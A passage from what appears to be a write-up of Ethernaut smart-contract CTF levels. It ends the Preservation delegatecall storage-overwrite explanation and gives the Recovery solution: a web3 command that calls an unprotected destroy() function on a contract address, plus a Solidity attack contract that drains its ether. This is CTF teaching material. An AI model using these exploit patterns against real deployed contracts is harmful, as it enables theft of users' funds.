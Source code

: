 ```
        owner = msg.sender;
    }
}
```

Inside `attack()`, the first call to `setTime()` changes the address of `LibraryContract` store in `Preservation`. Address of `LibraryContract` is now set to Attack. The second call to `setTime()` calls `Attack.setTime()` and here we change the owner.




# 17. [Challenge 17: Recovery](https://ethernaut.openzeppelin.com/level/0x0EB8e4771ABA41B70d0cb6770e04086E5aee5aB2)

Tasks:
- A contract creator has built a very simple token factory contract. Anyone can create new tokens with ease. After deploying the first token contract, the creator sent 0.5 ether to obtain more tokens. They have since lost the contract address. This level will be completed if you can recover (or remove) the 0.5 ether from the lost contract address.

Helpful Resources:
- [Ethereum quirks](https://swende.se/blog/Ethereum_quirks_and_vulns.html)

**Solution:** \
To Solve in cmd line:
```
data = web3.eth.abi.encodeFunctionCall({name: 'destroy', type: 'function', inputs: [{type: 'address', name: '_to'}]}, [player]);
await web3.eth.sendTransaction({to: "0xA0ffB380c2F8558474089A14767D8A0d0A5e9d05", from: player, data: data})
```

Attack Payload:
```
pragma solidity ^0.8.0;

interface ISimpleToken {
    function destroy(address payable _to) external;
}

contract SimpleToken {
    address levelInstance;

    constructor(address _levelInstance) {
        levelInstance = _levelInstance;
    }

    function withdraw() public {
        ISimpleToken(levelInstance).destroy(payable(msg.sender));
    }
}
```
